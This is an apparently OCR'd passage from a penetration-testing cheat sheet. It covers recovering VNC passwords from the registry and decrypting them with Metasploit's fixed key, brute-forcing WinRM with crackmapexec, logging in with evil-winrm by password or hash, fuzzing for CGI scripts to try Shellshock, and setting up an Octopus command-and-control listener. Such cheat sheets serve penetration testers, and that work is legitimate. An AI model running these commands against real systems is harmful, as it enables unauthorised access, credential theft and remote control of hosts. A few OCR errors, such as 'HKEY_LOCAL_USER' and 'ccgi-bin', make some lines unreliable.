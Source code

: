 # TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server

# TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4

# UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
Decrypt VNC password
msfconsole
irb
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["2151D3722874AD0C"].pack('H*'), fixedkey
/dev/nul
WINRM - 5985 - 5986
Brute force
crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
Connecting
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
evil-winrm -i <IP> -u <USER> -H <HASH>
CGI
Found CGI scripts
ffuf -w /home/liodeus/wordlist/SecLists/Discovery/Web-Content/CGI-XPlatform.fuzz.txt -u <URL>/ccgi-bin/FUZZ -t 50
ffuf -w /home/liodeus/wordlist/SecLists/Discovery/Web-Content/CGIs.txt -u <URL>/ccgi-bin/FUZZ -t 50
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/cgi-bin/FUZZ -e .sh,.pl,.cgi -t 100
If a script is found try SHELLSHOCK.

Command and control framework
# Download
git clone https://github.com/mhaskar/Octopus/tree/v1.2

# Install requirements
pip install -r requirements.txt

# Usage
./octopus.py

# Listener (exemple)
listen_http <BIND_IP> <BIND_PORT> <HOSTNAME> <INTERVAL_IN_SECONDS> <URL> <LISTENER_NAME>
listen_http 0.0.0.0 80 192.168.1.87 5 test.php listener_1
